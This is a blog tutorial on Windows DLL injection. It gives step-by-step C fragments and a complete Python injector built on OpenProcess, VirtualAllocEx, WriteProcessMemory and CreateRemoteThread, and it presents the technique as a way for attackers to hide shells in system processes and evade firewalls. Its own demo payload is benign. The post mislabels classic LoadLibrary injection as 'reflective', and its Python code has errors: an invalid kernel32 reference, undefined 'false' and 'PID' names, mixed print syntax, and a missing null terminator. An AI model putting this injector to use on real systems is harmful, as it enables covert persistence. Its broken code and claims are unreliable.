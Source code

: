 ```yaml
---
layout: post
title: Introduction to Reflective DLL Injection
categories: [Security]
tags: [Windows, Red Team, Development, Privilege Esc, DLL Injection, Malware, Tools]
description: An in depth introduction to writing a reflective DLL injector from scratch
---
```

[overview]: ../../../../images/posts/dll_injection/image4.png
[handleapi]: ../../../../images/posts/dll_injection/image1.png
[demo]: ../../../../images/posts/dll_injection/image2.png
[writeprocessapi]: ../../../../images/posts/dll_injection/image3.png
[virtualalloc]: ../../../../images/posts/dll_injection/image5.png
[createremote]: ../../../../images/posts/dll_injection/image6.png

DLL injection serves as an incredibly useful technique for those looking to load their custom libraries into a process and unify with it as one.  This provides developers enormous amounts of power over deployed applications and with that comes a great responsibility which is often taken advantage of.   Adversaries of all different kinds may use this post exploitation technique to establish persistence by hiding their shells within critical system processes.  By hiding within these processes adversaries are able to remain undetected much longer than being exposed on the surface of the system itself.  Additionally, adversaries can bypass firewall protections by injecting their libraries into trusted processes that have the ability to travel through the firewall.  In the rest of this post I will cover some key aspects of the DLL injection technique and write a simple injector as a proof of concept.  All code for this blog can be found on my Github at: <https://github.com/JonLMyers/InjectX>
## Overview ##
<br/>
<br/>
![DLL Injection Overview][overview]
<br/>
<br/>
<br/>
The first step of injecting DLLs into an application is creating a handle to the process for later interaction.  Microsoft provides the OpenProcess function as a means to open an existing local process object.

![Handle API DOC][handleapi]
The dwDesiredAccess parameter is used to request certain access rights to the process.  There are several different options that can be set to request different access levels however I discovered that the highest level of privileges granted with the PROCESS_ALL_ACCESS option is the best when injecting.  The bInheritHandle is a simple bool where if set to true all child processes of the target parent process will also inherit this handle.  Finally the dwProcessId parameter is simply the process identifier(PID) of the local process that would be found using Task Manager.  However to make finding the PID a little easier I decided to write a simple function that would take the process name and return the process id.  

So far our DLL injection function should look like this:
```c
bool InjectDynamicLibrary(DWORD processId, char* dllPath)
{
	// Open a new handle to the target process
	HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processId);
} 
```
<br/>
The next step in injecting a DLL is to allocate space in the target process using our handle.  To do this we are going to use Microsoft's VirtualAllocEx function.  
![virtual alloc api][virtualalloc]
<br/>
The hProcess parameter is simply for the handle that we created in the previous step.  The lpAddress allows us to specify a desired starting address for the region of space we wish to allocate for.  We are going to specifically assign this to null or zero so that we can use the MEM_COMMIT value in a later parameter.  The next parameter that we will use is dwSize which is used to specify the size of the region that we are going allocate for.  We will set this by using strlen on our dllPath to determine the size of the DLL’s path and the amount of space to reserve.  The flAllocationType parameter is used to specify the type of memory allocation we are going to use.  The MEM_COMMIT value is used to guarantee that memory will not be allocated until the caller attempts to access it and that the contents will be zero.  Additionally we are going to want to use MEM_RESERVE to safely reserve a range of virtual address space for our DLL.  Finally we are going to set the flProtect parameter to PAGE_READWRITE so the allocated space has read/write permissions.  
<br/>
<br/>
This is what your code should now look like:
```c
bool InjectDynamicLibrary(DWORD processId, char* dllPath)
{
	// Open a new handle to the target process
	HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processId);
	if (hTargetProcess) // if the handle is valid
	{
		// Allocates more memory in the target process for our DLL.
		LPVOID LoadPath = VirtualAllocEx(hTargetProcess, 0, strlen(dllPath),
			MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
 	}
}
```
<br/>
<br/>
Now we will use the very intuitive WriteProcessMemory function to write the DLL to the allocated space.  
![Write Process API][writeprocessapi]
<br/>
This function is going to take our hTargetProcess handle and starting at the beginning of our LoadPath copy the location of our DLL using dllPath.  Additionally we need to specify a nSize or the number of bytes we are going to copy which in our case is just the strlen of dllPath. Finally we set the lpNumberOfBytesWritten to NULL as we have not written anything to this space yet.   This should look similar to the function call below.
```c
// Writes the dll to the allocated memory space.
bool written = WriteProcessMemory(hTargetProcess, LoadPath, (LPCVOID)dllPath, strlen(dllPath), NULL);
```
<br/>
Finally it is time to create a thread and execute our DLL using the CreateRemoteThread function.
![Create Remote Thread API][createremote]
<br/>
<br/>
The first parameter is the familiar hProcess which is yet again just the handle we created in the original step.  The lpThreadAttributes parameter allows us to determine whether the child processes inherit the thread which we will set to 0 making in non inheritable.  The dwStackSize parameter sets the stack size for the new thread which we also want set to 0 making it default to the size of the process.  The lpStartAddress indicates where in memory the thread will start executing.   In order to properly set this we are going to need to write a few lines of code. 
```c
// Kernel32.dll is always the same address in every process.
LPVOID LoadLibAddr = (LPVOID)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
```
<br/>
This grabs the process address within our process because the Kernel32.dll is the same address in every process.  It then assigns it to the LoadLibAddr variable which is then assigned to our lpStartAddress parameter.  The next parameter is the lpParameter which allows us to specify a pointer to a memory location which will get passed in as a function parameter to the function that resides at lpStartAddress.  This we will set to the LoadPath the we retrieved from the memory allocation step.  The dwCreationFlags parameter is used to start the thread in a certain manner.  We want to set this to the default of 0 which will immediately execute the thread when it is created.  Finally we have the lpThreadId which is determined when the thread is finally created. 
<br/>
```c
// Create a thread in the target process that will call LoadLibraryA() with the dllpath as a parameter
HANDLE RemoteThread = CreateRemoteThread(hTargetProcess, 0, 0, 
(LPTHREAD_START_ROUTINE)LoadLibAddr, LoadPath, 0, 0);
```
<br/>
At this point I have covered all of the important parts of the Windows API that makes DLL injection relatively simple and the remaining code is just for memory clean up.
It is important to note that Python has an incredibly fluid ctypes library which makes it easy to utilise c data types and call DLL libraries all while wrapping it with pure python code.  This makes it very simple to write a DLL injector as we can see below.
<br/>
```python
import sys
import win32api
from ctypes import *
kernel32 = win32api.kernel32

#Hardcoded globals used when interacting with the WinAPI.
PAGE_READWRITE = 0x04
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF )
VIRTUAL_MEM = ( 0x1000 | 0x2000 )

def inject(pid, dllPath):
    dllLen = len(dllPath)

    #Create the handle to our target process.
    hTargetProcess = kernel32.OpenProcess(PROCESS_ALL_ACCESS, false, int(pid))
    if not hTargetProcess:
        print("Oh boy... I could not create a handle to the process!  Your PID is: %s", PID)
        sys.exit(0)

    #Allocate memory within the process.
    loadPath = kernel32.VirtualAllocEx(hTargetProcess, 0, dllLen, VIRTUAL_MEM, PAGE_READWRITE)

    #Write to the newly created space.
    written = c_int(0)
    kernel32.WriteProcessMemory(hTargetProcess, loadPath, dllPath, dllLen, byref(written))

    hKernel32 = kernel32.GetModuleHandleA("kernel32.dll")
    hLoadlib = kernel32.GetProcAddress(hKernel32,"LoadLibraryA")

    #Create the thread and execute the DLL
    threadId = c_ulong(0)
    if not kernel32.CreateRemoteThread(hTargetProcess, None, 0, hLoadlib, loadPath, 0, byref(threadId)):
        print "Oh no... Failed to inject the DLL!"
        sys.exit(0)

    print ("Victory!  Thread with ID 0x%08x sucessfully created." % threadId.value)

def main():
    pid = input("Enter the process id: ")
    dllPath = input("Enter the path to the DLL: ")
    inject(pid, dllPath)

main()
```
<br/>
It is now time for us to inject our DLL!  This DLL is incredibly basic and simply outputs a greeting from the injected process but in the real world these can be much more dastardly.  
<br/>
![Demo Image][demo]